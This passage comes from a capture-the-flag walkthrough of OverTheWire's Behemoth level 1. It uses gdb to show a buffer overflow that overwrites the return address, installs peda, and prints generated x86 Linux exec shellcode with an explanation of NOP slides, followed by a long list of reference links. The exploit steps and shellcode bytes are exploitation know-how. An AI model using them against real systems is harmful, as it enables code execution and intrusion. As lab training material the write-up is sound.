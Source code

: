```
behemoth1@melinda:/tmp/cyber$ python -c "print 'A'*79 + 'BBBB'" > payload
behemoth1@melinda:/tmp/cyber$ gdb -q /behemoth/behemoth1
Reading symbols from /behemoth/behemoth1...(no debugging symbols found)...done.
(gdb) r < payload
Starting program: /games/behemoth/behemoth1 < payload
Password: Authentication failure.
Sorry.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Check it out! Those B's filled up to the point where the memory address would go. They are represented by that `42` [hex] value you see. 'B' is `42` in [hex]. 

Look's like we've got our [overflow][buffer overflow]. Next let's add some shellcode.

Generating shellcode
-------

So [`gdb`][gdb] actually has an extension called '[peda]', "Python Exploit Development Assistance". It has a lot of aweosme features so I recommand you read up on it and play with it, but we'll actually use it to generate our [shellcode]. 

The [`git`][git] [repo][peda] actuallu has instructions on how to install it; it's really just a set of simple commands. (It does it install it to your [home directory] by default, so feel free to change that if you'd like to).

```
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```

Now when we fire up [`gdb`][gdb], you can run the commands discussed in the [repo][peda], like `shellcode`.

We can supply a `generate` argument to have it build some [shellcode] for us, and specify the target to be an `x86/linux` machine. If we want a shell, we would need to specify the type to be `exec`. It all ends up looking like this...

```
john@john-Latitude-E7440:~$ gdb
gdb-peda$ shellcode generate x86/linux exec
# x86/linux/exec: 24 bytes
shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31"
    "\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
)
```

Boom. It gives us readily usable [shellcode]. We'll clean it up and add it to our [payload].

Before we do this, we have to add what is called a '[NOP slide]'. You can read up on this if you would like, but it essentially makes for 'padding' in memory of a bunch of bytes that don't actually do anything. '[NOP]' means '_no operation_', 'no op'. The program would see all of these, and run right through them. If we put our [shellcode] right after it, the program will _slide_ right to it. 


[netcat]: https://en.wikipedia.org/wiki/Netcat
[Wikipedia]: https://www.wikipedia.org/
[Linux]: https://www.linux.com/
[man page]: https://en.wikipedia.org/wiki/Man_page
[PuTTY]: http://www.putty.org/
[ssh]: https://en.wikipedia.org/wiki/Secure_Shell
[Windows]: http://www.microsoft.com/en-us/windows
[virtual machine]: https://en.wikipedia.org/wiki/Virtual_machine
[OS]: https://en.wikipedia.org/wiki/Operating_system
[VMWare]: http://www.vmware.com/
[VirtualBox]: https://www.virtualbox.org/
[hostname]: https://en.wikipedia.org/wiki/Hostname
[port number]: https://en.wikipedia.org/wiki/Port_%28computer_networking%29
[Ubuntu]: http://www.ubuntu.com/
[ISO]: https://en.wikipedia.org/wiki/ISO_image
[standard streams]: https://en.wikipedia.org/wiki/Standard_streams
[read]: http://ss64.com/bash/read.html
[variable]: https://en.wikipedia.org/wiki/Variable_%28computer_science%29
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[permissions]: https://en.wikipedia.org/wiki/File_system_permissions
[redirection]: http://www.tldp.org/LDP/abs/html/io-redirection.html
[tmp]: http://www.tldp.org/LDP/Linux-Filesystem-Hierarchy/html/tmp.html
[curl]: http://curl.haxx.se/
[cl1p.net]: https://cl1p.net/
[request]: http://www.w3.org/Protocols/rfc2616/rfc2616-sec5.html
[POST request]: https://en.wikipedia.org/wiki/POST_%28HTTP%29
[Python]: http://python.org/
[interpreter]: https://en.wikipedia.org/wiki/List_of_command-line_interpreters
[requests]: http://docs.python-requests.org/en/latest/
[urllib]: https://docs.python.org/2/library/urllib.html
[file handling with Python]: https://docs.python.org/2/tutorial/inputoutput.html#reading-and-writing-files
[bash]: https://www.gnu.org/software/bash/
[Assembly]: https://en.wikipedia.org/wiki/Assembly_language
[the stack]:  https://en.wikipedia.org/wiki/Stack_%28abstract_data_type%29
[register]: http://www.tutorialspoint.com/assembly_programming/assembly_registers.htm
[hex]: https://en.wikipedia.org/wiki/Hexadecimal
[archive file]: https://en.wikipedia.org/wiki/Archive_file
[zip file]: https://en.wikipedia.org/wiki/Zip_%28file_format%29
[gigabytes]: https://en.wikipedia.org/wiki/Gigabyte
[GB]: https://en.wikipedia.org/wiki/Gigabyte
[GUI]: https://en.wikipedia.org/wiki/Graphical_user_interface
[Wireshark]: https://www.wireshark.org/
[FTP]: https://en.wikipedia.org/wiki/File_Transfer_Protocol
[client and server]: https://simple.wikipedia.org/wiki/Client-server
[RETR]: http://cr.yp.to/ftp/retr.html
[FTP server]: https://help.ubuntu.com/lts/serverguide/ftp-server.html
[SFTP]: https://en.wikipedia.org/wiki/SSH_File_Transfer_Protocol
[SSL]: https://en.wikipedia.org/wiki/Transport_Layer_Security
[encryption]: https://en.wikipedia.org/wiki/Encryption
[HTML]: https://en.wikipedia.org/wiki/HTML
[Flask]: http://flask.pocoo.org/
[SQL]: https://en.wikipedia.org/wiki/SQL
[and]: https://en.wikipedia.org/wiki/Logical_conjunction
[Cyberstakes]: https://cyberstakesonline.com/
[cat]: https://en.wikipedia.org/wiki/Cat_%28Unix%29
[symbolic link]: https://en.wikipedia.org/wiki/Symbolic_link
[ln]: https://en.wikipedia.org/wiki/Ln_%28Unix%29
[absolute path]: https://en.wikipedia.org/wiki/Path_%28computing%29
[CTF]: https://en.wikipedia.org/wiki/Capture_the_flag#Computer_security
[Cyberstakes]: https://cyberstakesonline.com/
[OverTheWire]: http://overthewire.org/
[Leviathan]: http://overthewire.org/wargames/leviathan/
[ls]: https://en.wikipedia.org/wiki/Ls
[grep]: https://en.wikipedia.org/wiki/Grep
[strings]: http://linux.die.net/man/1/strings
[ltrace]: http://linux.die.net/man/1/ltrace
[C]: https://en.wikipedia.org/wiki/C_%28programming_language%29
[strcmp]: http://linux.die.net/man/3/strcmp
[access]: http://pubs.opengroup.org/onlinepubs/009695399/functions/access.html
[system]: http://linux.die.net/man/3/system
[real user ID]: https://en.wikipedia.org/wiki/User_identifier
[effective user ID]: https://en.wikipedia.org/wiki/User_identifier
[brute force]: https://en.wikipedia.org/wiki/Brute-force_attack
[for loop]: https://en.wikipedia.org/wiki/For_loop
[bash programming]: http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO.html
[Behemoth]: http://overthewire.org/wargames/behemoth/
[gets]: http://www.cplusplus.com/reference/cstdio/gets/
[buffer overflow]: https://en.wikipedia.org/wiki/Buffer_overflow
[try harder]: https://www.offensive-security.com/when-things-get-tough/
[segmentation fault]: https://en.wikipedia.org/wiki/Segmentation_fault
[seg fault]: https://en.wikipedia.org/wiki/Segmentation_fault
[segfault]: https://en.wikipedia.org/wiki/Segmentation_fault
[shellcode]: https://en.wikipedia.org/wiki/Shellcode
[sploit-tools]: https://github.com/SaltwaterC/sploit-tools
[Kali]: https://www.kali.org/
[Kali Linux]: https://www.kali.org/
[gdb]: https://www.gnu.org/software/gdb/
[gdb tutorial]: http://www.unknownroad.com/rtfm/gdbtut/gdbtoc.html
[payload]: https://en.wikipedia.org/wiki/Payload_%28computing%29
[peda]: https://github.com/longld/peda
[git]: https://git-scm.com/
[home directory]: https://en.wikipedia.org/wiki/Home_directory
[NOP]: https://en.wikipedia.org/wiki/NOP
[examine]: https://sourceware.org/gdb/onlinedocs/gdb/Memory.html
[stack pointer]: http://stackoverflow.com/questions/1395591/what-is-exactly-the-base-pointer-and-stack-pointer-to-what-do-they-point
[little endian]: https://en.wikipedia.org/wiki/Endianness
[big endian]: https://en.wikipedia.org/wiki/Endianness
[endianness]: https://en.wikipedia.org/wiki/Endianness
[pack]: https://docs.python.org/2/library/struct.html#struct.pack
[dash]: https://en.wikipedia.org/wiki/Almquist_shell